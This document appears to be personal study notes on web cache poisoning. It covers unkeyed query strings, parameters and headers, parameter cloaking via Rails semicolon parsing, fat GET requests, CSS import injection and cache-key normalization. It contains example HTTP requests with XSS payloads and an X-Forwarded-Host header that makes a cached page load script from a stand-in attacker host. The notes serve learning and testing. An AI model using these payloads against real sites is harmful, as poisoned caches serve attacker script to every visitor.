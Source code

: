 




Headers to Consider
--------------------
- Cache-control directives
- Vary header 
- 3rd parties headers 
- analytical headers
- CDN cache headers ex :
`akamai-x-get-cache-key` => `Returns the cache key used for the request`


# Exploiting cache implementation flaws 



## Unkeyed port

EX :
-consider the case where a redirect URL was dynamically generated based on the Host header
-This might enable you to construct a denial-of-service attack by simply adding an arbitrary port to the request.


## Unkeyed query string

how to find : -that you can still get a cache hit even if you change the query parameters.
		             -This indicates that they are not included in the cache key.

EX : 
-Like the Host header, the request line is typically keyed. However, one of the most common cache-key transformations is to exclude the entire query string
```http
GET /?evil='/><script>alert(1)</script>
```



## Unkeyed query parameters

-some websites only exclude specific query parameters that are not relevant to the back-end application
-such as parameters for analytics or serving targeted advertisements. UTM parameters like utm_content
EX:
```http
GET /?utm_content='/><script>alert(1)</script>
```

## Unkeyed Header 


## Unkeyed cookie 


## Cache parameter cloaking


#### -Exploiting parameter parsing quirks


##### check how cache parses the URL to identify and remove the unwanted parameters

- Some poorly written parsing algorithms will treat any ? as the start of a new parameter, regardless of whether it's the first one or not.
```http
GET /?example=123?excluded_param=bad-stuff-here
```


##### check parsing discrepancies between the **cache and the application.**

- The Ruby on Rails framework , interprets both ampersands (&) and semicolons (;) as delimiters.
- When used in conjunction with a cache that does not allow this, you can potentially exploit another quirk to override the value of a keyed parameter in the application logic.


EX: 
- Consider the following request:  
```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```
- As the names suggest, keyed_param is included in the cache key, but excluded_param is not.

- Many caches will only interpret this as two parameters, delimited by the ampersand:
        keyed_param=abc
        excluded_param=123;keyed_param=bad-stuff-here

- Once the parsing algorithm removes the excluded_param, the cache key will only contain keyed_param=abc.

- On the back-end, however, Ruby on Rails sees the semicolon and splits the query string into three separate parameters:
        keyed_param=abc
        excluded_param=123
        keyed_param=bad-stuff-here
        
-If there are duplicate parameters, each with different values, Ruby on Rails gives precedence to the final occurrence

-if a website is using JSONP to make a cross-domain request, this will often contain a callback parameter to execute a given function on the returned data:
        GET /jsonp?callback=innocentFunction



#### -Exploiting fat GET support


-the HTTP method may not be keyed.
-This might allow you to poison the cache with a POST request containing a malicious payload in the body.
-Your payload would then even be served in response to users' GET requests.
-Although this scenario is pretty rare, you can sometimes achieve a similar effect by simply adding a body to a GET request to create a "fat" GET request:

EX :
```http
GET /?param=innocent HTTP/1.1
 …
 param=bad-stuff-here
```




#### -Exploiting dynamic content in resource imports


EX : 
- consider a page that reflects the current query string in an import statement:

```
//request
GET /style.css?excluded_param=123);@import… 

//response
HTTP/1.1 HTTP/1.1 200 OK … 
@import url(/site/home/index.part1.8a6715a2.css?excluded_param=123);@import…
```
 
- You could exploit this behavior to inject malicious CSS that exfiltrates sensitive information from any pages that import /style.css

- If the page importing the CSS file doesn't specify a `doctype`, you can maybe even exploit static CSS files. Given the right configuration, browsers will simply scour the document looking for CSS and then execute it. This means that you can occasionally poison static CSS files by triggering a server error that reflects the excluded query parameter
```
//request
GET /style.css?excluded_param=alert(1)%0A{}*{color:red;} 

//response
HTTP/1.1 HTTP/1.1 200 OK Content-Type: text/html …
This request was blocked due to…alert(1){}*{color:red;}
```


## Normalized cache keys

-Some caching implementations normalize keyed input when adding it to the cache key.
-In this case, both of the following requests would have the same key:

```http
GET /example?param="><test>
```
```http
GET /example?param=%22%3e%3ctest%3e
```

- This behavior can allow you to exploit these otherwise "unexploitable" XSS vulnerabilities.
- If you send a malicious request using Burp Repeater, you can poison the cache with an unencoded XSS payload.
- When the victim visits the malicious URL, the payload will still be URL-encoded by their browser; however, once the URL is normalized by the cache, it will have the same cache key as the response containing your unencoded payload.


## Cache key injection

## Internal cache poisoning








# Exploiting cache design flaws 


### Using web cache poisoning to deliver an XSS attack

- Perhaps the simplest web cache poisoning vulnerability to exploit is when unkeyed input is reflected in a cacheable response without proper sanitization.
ex:
```http
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: a."><script>alert(1)</script>" 
```

```http
HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

### Using web cache poisoning to exploit unsafe handling of resource imports

- Some websites use unkeyed headers to dynamically generate URLs for importing resources
ex:
```http
GET / HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: evil-user.net 
User-Agent: Mozilla/5.0 Firefox/57.0 
```

```http
HTTP/1.1 200 OK 
<script src="https://evil-user.net/static/analytics.js"></script>
```

### Using web cache poisoning to exploit cookie-handling vulnerabilities

- Cookies are often used to dynamically generate content in a response , if they are unkeyed it will lead to cache poisoning

### Using multiple headers to exploit web cache poisoning vulnerabilities


### Using web cache poisoning to exploit DOM-based vulnerabilities

- if the website unsafely uses unkeyed headers to import files, this can potentially be exploited by an attacker to import a malicious file instead. However, this applies to more than just JavaScript files.
- Many websites use JavaScript to fetch and process additional data from the back-end.
- If a script handles data from the server in an unsafe way, this can potentially lead to all kinds of DOM-based vulnerabilities.

